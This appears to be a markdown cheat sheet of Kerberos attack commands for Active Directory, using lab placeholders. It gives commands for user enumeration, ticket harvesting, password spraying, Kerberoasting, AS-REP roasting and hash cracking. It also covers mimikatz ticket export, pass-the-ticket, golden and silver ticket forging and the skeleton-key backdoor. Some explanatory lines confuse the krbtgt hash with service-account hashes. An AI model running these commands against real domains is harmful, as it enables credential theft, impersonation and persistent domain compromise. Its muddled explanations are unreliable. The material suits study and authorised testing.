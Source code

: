 # Attacking Kerberos 

## Enumeration w/ Kerbrute
> Use  --downgrade to get a crackable format for hashcat
```shell
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt --downgrade
```

## Harvesting Tickets w/ Rubeus
This command tells Rubeus to harvest for TGTs every 30 seconds
```shell
Rubeus.exe harvest /interval:30
```
## Password-Spraying w/ Rubeus
```shell
Rubeus.exe brute /password:Password1 /noticket
```
## Kerberoasting w/ Rubeus & Impacket 
It helps to crack the hash and use it with Mimikatz to create tickets.
```shell
Rubeus.exe kerberoast
```
```shell
impacket-GetUserSPNs  -dc-ip MACHINE_IP domain.local/Machine1:Password1           # Check SPNs accosiated with this machine/user.
impacket-GetUserSPNs  -dc-ip MACHINE_IP domain.local/Machine1:Password1 -request # Does a kerberoast attack
```
## AS-REP Roasting w/ Rubeus & Impacket
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>```
```
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

### Extracting & Crack Tickets (Local Admin Required)

```
mimikatz#  kerberos::list /export
hashcat -m18200  <ticket.kirbi> rockyou.txt
```

## Pass the Ticket w/ mimikatz (Local Admin Required)
```shell
mimikatz.exe
privilege::debug           #Ensure this outputs [output '20' OK] (You need admin privileges)
sekurlsa::tickets /export  #This will export all of the .kirbi tickets into the directory that you are currently in.
kerberos::ptt <ticket>     #This will cache and impersonate the given ticket.
klist                      #Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
```
## Golden/Silver Ticket Attacks w/ mimikatz
Dump the krbtgt hash
```shell
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:SQLService
```
You need to change `/name:` value to the domain account/service you want.

### Create a Silver Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:1103
```
### Create a Golden Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:500
```
`misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

`sid:` -> The sid of the service account.

`krbtgt` -> Put a service NTLM hash here.

`id` -> Put 500 to create golden tickets, change it to 1103 for silver tickets.

## Kerberos Backdoors w/ mimikatz (Skeleton Key)
```shell
mimikatz.exe
privilege::debug
misc::skeleton
```
